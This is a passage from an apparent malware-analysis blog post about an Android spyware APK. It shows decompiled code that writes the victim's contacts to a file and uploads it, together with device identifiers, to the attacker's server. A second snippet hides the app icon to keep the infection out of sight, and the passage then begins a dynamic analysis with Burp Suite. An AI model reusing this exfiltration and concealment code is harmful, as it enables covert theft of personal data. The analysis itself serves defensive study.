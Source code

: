 ```cs
            File file4 = Common.File;
            File file5 = Common.File;
            File.WriteString(File.getDirInternal(), "Contacts.txt", str6);
            File file6 = Common.File;
            _ht._postfile(_port1 + "/upload.php?result=ok&action=upload1&androidid=" + _android + "&opr=" + _opr + "&model=" + _model, File.getDirInternal(), "Contacts.txt");
        }
```

The malware will try to maintain presistance to the victim's phone. So the victim won't suspect about the installed APK. So the malware will hide the icon of the malicious APK. 

```cs
 public static String _hideapp(boolean z) throws Exception {
        Reflection reflection = new Reflection();
        B4AApplication b4AApplication = Common.Application;
        String packageName = B4AApplication.getPackageName();
        StringBuilder sb = new StringBuilder();
        B4AApplication b4AApplication2 = Common.Application;
        sb.append(B4AApplication.getPackageName());
        sb.append(".main");
        Object CreateObject2 = reflection.CreateObject2("android.content.ComponentName", new Object[]{packageName, sb.toString()}, new String[]{"java.lang.String", "java.lang.String"});
        reflection.Target = reflection.GetContext(processBA);
        reflection.Target = reflection.RunMethod("getPackageManager");
        reflection.Target = reflection.RunMethod4("setComponentEnabledSetting", new Object[]{CreateObject2, Integer.valueOf(z ? 2 : 1), 0}, new String[]{"android.content.ComponentName", "java.lang.int", "java.lang.int"});
        return "";
    }

```

# Dynamic analysis

Now we will try to run the malicious APK on android emulator using `Android studio` and intercept the http/s using `Burp Suite`. After installing the malware. We run it. We see it's try to connect to `connectivitycheck.gstatic.com` to check connectivity of internet but this site is not found by using [VT](https://www.virustotal.com/gui/url/dea4fd0ced328fcc33cf99597d226796c94177e16f8b195354b3e879d76b89b1).  

<p align="center">
  <img src="/assets/images/MA/irata/4.gif" />
</p>
<center><font size="3"> <u>Figure</u>(4) <u></u> </font></center>
<br>

<p align="center">